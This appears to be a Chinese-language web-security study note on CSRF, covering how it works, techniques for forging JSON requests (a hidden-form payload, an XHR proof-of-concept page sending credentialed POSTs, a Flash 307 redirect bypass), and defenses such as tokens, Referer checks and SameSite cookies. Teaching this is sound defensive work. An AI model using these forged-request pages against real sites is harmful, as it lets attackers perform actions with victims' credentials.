

- [CSRF](#csrf)
  - [原理](#原理)
  - [CSRF with Json](#csrf-with-json)
    - [JSON格式](#json格式)
    - [XHR](#xhr)
    - [307 Flash跳转](#307-flash跳转)
  - [修复方案](#修复方案)
    - [CSRF Token](#csrf-token)
    - [校验HTTP Referer](#校验http-referer)
    - [自定义Header Token](#自定义header-token)
    - [设置 SameSite](#设置-samesite)
  - [参考](#参考)

# CSRF

## 原理
原理在于服务端无法确定请求是否是由正常用户发起的,攻击者将敏感请求嵌入在恶意页面中,受害者访问该页面自动触发该请求,受害者浏览器使用受害者的凭据自动向服务器进行敏感请求操作.
## CSRF with Json
### JSON格式
Post JSON数据格式的数据需要构造表单,把post数据作为参数名发送,最后还需要闭合多余的字符.  
`<input type="hidden" name='{"data":"300016001555","test":"' value='test"}' />`
但表单无法设置Content-Type为application/json,如果服务端校验Content-Type则会拒绝该请求.
### XHR
Content-Type头需要设置为application/json。设置自定义Header需要使用XMLHttpRequests,同时需要CORS.
使用XHR提交来设置Content-Type,但该方式会先发生OPTIONS请求,要求服务端不会对该OPTIONS请求的Content-Type做检验,同时需要CORS.
```html
<html>
  <body>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "https://www.xxxxx.com/AAA", true);
        xhr.setRequestHeader("Accept", "*/*");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3");
        xhr.setRequestHeader("Content-Type", "application/json; charset=utf-8");
        xhr.withCredentials = true;
        xhr.send(JSON.stringify({"data":"300016001555","test":"test"}));
    }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();"/>
    </form>
  </body>
</html>
```
### 307 Flash跳转
通过Flash的跨域和307跳转来绕过限制,307跳转会保持原请求原封不动的进行转发,还是会受到CORS的限制.  
https://github.com/appsecco/json-flash-csrf-poc
## 修复方案
### CSRF Token
在敏感页面的请求中加入唯一的Token,后端对敏感请求进行Token校验,而正常情况下(如果存在XSS或暴露在URL请求中仍然可能导致获得Token)攻击者无法获得该Token,则无法冒充用户进行敏感操作.
### 校验HTTP Referer
验证 HTTP Referer 字段，是否是从信任域名发送请求.
### 自定义Header Token
HTTP 头中自定义属性（如Authorization）并验证,类似于加Token,只是加在HTTP头中,即每个页面都会带上该Token校验头,而不必在每个相关页面代码中都加上Token. 

### 设置 SameSite 
设置SameSite: (https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Set-Cookie/SameSite) 
SameSite是 HTTP 响应头 Set-Cookie 的属性之一。它允许您声明该 Cookie 是否仅限于第一方或者同一站点上下文。  
SameSite 接受下面三个值:
* Lax: 比Strict模式宽松一些，允许在跨站点使用GET请求时携带Cookie。这种模式适用于需要跨站点GET请求的场景，同时也能提供一定的安全保护。
* Strict: 完全禁止第三方Cookie，即跨站点时不会携带Cookie，只有当前站点和访问站点的URL一致时才能携带Cookie。这种模式可以有效防止CSRF攻击，但可能会导致用户在跨站点时需要重新登录。
* None: 允许Cookie在所有请求中携带，但必须与Secure属性一起使用（即Cookie只能通过HTTPS协议发送）。这种模式适用于需要无限制携带Cookie的场景，但要求网站必须使用HTTPS。

  
## 参考
https://blog.csdn.net/zl834205311/article/details/81773511
https://tech.meituan.com/2018/10/11/fe-security-csrf.html
https://www.hahwul.com/2016/06/30/web-hacking-putdelete-csrfcross-site/